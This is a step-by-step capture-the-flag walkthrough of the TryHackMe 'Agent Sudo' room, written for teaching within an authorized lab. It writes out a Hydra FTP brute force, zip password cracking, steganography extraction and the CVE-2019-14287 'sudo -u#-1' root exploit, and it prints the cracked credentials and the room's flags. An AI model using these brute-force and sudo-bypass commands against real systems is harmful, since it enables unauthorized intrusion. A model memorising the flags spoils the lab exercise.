# NULLSECURE - FROM AGENT TO ROOT

🎥 Video Walkthrough: [[VIDEO LINK](https://youtu.be/tnf4VDRc15E)]

# Agent Sudo — TryHackMe Full Walkthrough

| | |
|---|---|
| **Room** | [Agent Sudo](https://tryhackme.com/room/agentsudoctf) |
| **Difficulty** | Easy |
| **Target IP** | 10.146.129.162 |
| **OS** | Linux (Ubuntu) |
| **Attack Path** | Anonymous FTP (denied) → Web Enum → HTTP User-Agent Header Fuzzing → FTP Credential Brute Force → Steganography (binwalk/zip2john/steghide) → Base64 Decode → SSH Foothold → CVE-2019-14287 (Sudo `-1` UID Bypass) → Root |

---

## Overview

Agent Sudo drops us onto a single Linux host that TryHackMe bills as "a secret server located under the deep sea" — a lightweight espionage narrative wrapped around a very standard enumeration-heavy CTF box. There's no starting credential handed over; every step is earned through header manipulation, brute-forcing, and two separate rounds of steganography before a stale `sudo` binary finally hands over root. The box chains together HTTP `User-Agent` fuzzing to unlock a hidden page, an FTP credential brute-force, a Zip-inside-PNG steganography reveal, a Base64-encoded passphrase, a second JPEG `steghide` payload, and a textbook CVE-2019-14287 sudo UID bypass to go from anonymous recon straight to root.

**Tools used:** RustScan, Nmap, curl, Hydra, ftp, binwalk, zip2john, John the Ripper, unzip/7z, base64, steghide, ssh, scp

---

## Recon

Kicked off with a fast port sweep using RustScan piped into Nmap for service/version detection:

```bash
rustscan -a 10.146.129.162 --ulimit 5000 -- -sC -sV
```

Standard three-port spread for this box:

```
21/tcp   ftp     vsftpd 3.0.3
22/tcp   ssh     OpenSSH 7.6p1 (Ubuntu Linux; protocol 2.0)
80/tcp   http    Apache httpd 2.4.29 ((Ubuntu))
```

With FTP open, tried anonymous login first — always worth a shot before assuming credentials are required:

```bash
ftp 10.146.129.162
# Name: anonymous
```

Denied. Credentials would have to be earned somewhere else.



Moved to the web service on port 80.





The page title read "Annoucement" (typo included) and carried a note signed by someone going by **Agent R**, instructing visitors to set their own codename as the HTTP `User-Agent` header before the real content would be served. No codename was given up front — that had to be brute-forced.

---

## Vulnerability Identification — OSINT & Header Enumeration

Worked through single-letter codenames with curl, swapping the `User-Agent` on each request:

```bash
curl -A "R" -L 10.146.129.162
```



```bash
curl -A "A" -L 10.146.129.162
curl -A "B" -L 10.146.129.162
curl -A "C" -L 10.146.129.162
```



Codename **C** returned a different page entirely — a note addressed to "Agent C" naming a colleague, **chris**, and flagging that his FTP password was weak enough to be worth going after. That was enough to pivot the FTP brute-force toward a known username instead of guessing blind.

**The vulnerability:** access to the site's real content was gated only by a client-controlled `User-Agent` header rather than any actual authentication — a trivial enumeration surface that leaked both a valid username and a strong hint to attack FTP next.

---

## Exploitation

### FTP Credential Brute Force

With `chris` confirmed as a valid username, ran Hydra against FTP with rockyou.txt:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.146.129.162 ftp
```

```
chris : crystal
```



### Looting the FTP Share

```bash
ftp 10.146.129.162
# Name: chris / Password: crystal
ftp> prompt off
ftp> mget *
```



Three files came down: `To_agentJ.txt`, `cute-alien.jpg`, and `cutie.png`.

```bash
cat To_agentJ.txt
```



The note pointed straight at the two images as the next lead.

### Steganography — Cracking Open the Hidden Archive

Ran `binwalk` against both images to check for embedded data:

```bash
binwalk cute-alien.jpg
```



```bash
binwalk cutie.png
```



`cutie.png` had a Zip archive appended after its image data. Extracted it:

```bash
binwalk -e cutie.png
cd _cutie.png.extracted
```



Tried reading the note inside straight away, but it wasn't accessible yet — the archive itself still needed cracking:

```bash
cat To_agentR.txt
```



`8702.zip` was password protected. Cracked it offline:

```bash
zip2john 8702.zip > hashzip.txt
john hashzip.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
8702.zip : alien
```



```bash
unzip 8702.zip
7z e 8702.zip
cat To_agentR.txt
```



`To_agentR.txt` contained a Base64 string:

```bash
echo 'QXJlYTUx' | base64 -d
```

```
Area51
```

That decoded value turned out to be the passphrase for a second, separate layer of steganography — this time hidden inside `cute-alien.jpg` with `steghide`:

```bash
steghide --extract -sf cute-alien.jpg
# passphrase: Area51
cat message.txt
```

```
james:hackerrules!
```



---

## Foothold

Logged in over SSH with the recovered credentials:

```bash
ssh james@10.146.129.162
# password: hackerrules!
cat user_flag.txt
```

**User Flag:** `b03d975e8c92a7c04146cfa7a5a313c7`



Out of curiosity, pulled a photo off the box locally and reverse-image-searched it — one of the room's trivia side-questions rather than a step required for root:

```bash
scp james@10.146.129.162:/home/james/Alien_autospy.jpg .
```



---

## Privilege Escalation

Checked what `james` was allowed to run, and what version of `sudo` was installed:

```bash
sudo -l
sudo -V
```

Sudo came back as version **1.8.21p2** — old enough to be vulnerable to **CVE-2019-14287**: a flaw where passing user ID `-1` (or its unsigned equivalent, `4294967295`) to `sudo -u` lets a user bypass an explicit `!root` restriction in `sudoers` and execute commands as root anyway, even when root access was supposed to be denied.



Exploited it directly:

```bash
sudo -u#-1 /bin/bash
cat /root/root.txt
```

**Root Flag:** `b53a02f55b57d4439e3341834d70c062`



---

## Conclusion

| Stage | Technique | Result |
|---|---|---|
| Recon | RustScan + Nmap | Identified FTP, SSH, HTTP on a Linux host |
| Recon | Anonymous FTP attempt | Denied — credentials required |
| OSINT | Web enumeration on port 80 | Found "Annoucement" page referencing agent codenames |
| OSINT | `User-Agent` header fuzzing (curl) | Codename `C` revealed a note naming user `chris` |
| Initial Access | FTP brute force (Hydra) | Cracked `chris:crystal` |
| Loot | FTP download (`mget *`) | Retrieved `To_agentJ.txt`, `cute-alien.jpg`, `cutie.png` |
| Steganography | `binwalk` on `cutie.png` | Extracted password-protected `8702.zip` |
| Cracking | `zip2john` + John (rockyou.txt) | Cracked Zip password `alien` |
| Decoding | Base64 decode of `To_agentR.txt` | Recovered passphrase `Area51` |
| Steganography | `steghide --extract` on `cute-alien.jpg` | Recovered SSH creds `james:hackerrules!` |
| Foothold | SSH as `james` | Interactive access, user flag |
| Privilege Escalation | `sudo -V` + CVE-2019-14287 | `sudo -u#-1 /bin/bash` → root shell, root flag |

---

## Attack Chain Summary

```
Unauthenticated Recon
   └─ RustScan / Nmap → FTP(21) / SSH(22) / HTTP(80)
   └─ Anonymous FTP → denied
   └─ Web Enum (:80) → "Annoucement" page, agent-codename hint
        └─ User-Agent fuzzing (curl -A) → codename C → note naming chris
             └─ Hydra FTP brute force → chris:crystal
                  └─ FTP loot → To_agentJ.txt, cute-alien.jpg, cutie.png
                       └─ binwalk (cutie.png) → embedded 8702.zip
                            └─ zip2john + John → zip password "alien"
                                 └─ To_agentR.txt → base64 decode → "Area51"
                                      └─ steghide (cute-alien.jpg, pass Area51) → james:hackerrules!
                                           └─ SSH as james → USER FLAG
                                                └─ sudo -V → vulnerable 1.8.21p2
                                                     └─ CVE-2019-14287 (sudo -u#-1) → ROOT → ROOT FLAG
```

---

*This writeup documents activity performed exclusively within an authorized TryHackMe lab environment for educational purposes. Do not apply these techniques against any system you do not own or have explicit written permission to test.*

**A1GCH ⚔ NullSecure**
